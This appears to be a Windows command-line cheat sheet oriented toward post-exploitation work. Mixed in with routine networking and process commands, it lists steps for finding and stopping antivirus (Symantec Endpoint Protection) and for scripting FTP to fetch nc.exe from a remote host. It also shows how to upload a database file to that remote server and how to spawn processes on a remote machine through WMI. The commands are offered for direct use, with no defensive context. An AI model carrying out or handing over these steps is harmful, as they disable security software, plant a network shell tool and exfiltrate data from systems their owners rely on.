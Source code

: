 View the list of started services (search for antivirus):

    net start
    sc query

Stop a service:

    net stop "Symantec Endpoint Protection"

View the list of started processes and the owner:

    tasklist /v

Kill a process by its name:

    taskkill /F /IM "cmd.exe"

Abort a shutdown/restart countdown:

    shutdown /a

Download an executable from a remote FTP server:

```
echo open 10.1.2.3> C:script.txt
echo user myftpuser>> C:script.txt
echo pass myftppass>> C:script.txt
echo get nc.exe>> C:script.txt
echo bye>> C:script.txt
ftp -s:script.txt
```
Upload a file to a remote FTP server:

```
echo open 10.1.2.3> C:script.txt
echo user myftpuser>> C:script.txt
echo pass myftppass>> C:script.txt
echo put E:backupsdatabase.dbf>> C:script.txt
echo bye>> C:script.txt
ftp -s:script.txt
```

WMI call remote system

    wmic /node:remote_computer process call create "netstat.exe -ano > C:output.txt"

View established connections of current machine:

    netstat -a -n -p tcp | find "ESTAB"

View open ports of current machine:

    netstat -a -n -p tcp | find "LISTEN"

    netstat -a -n -p udp

View network configuration:

    netsh interface ip show addresses
    netsh interface ip show route
    netsh interface ip show neighbors
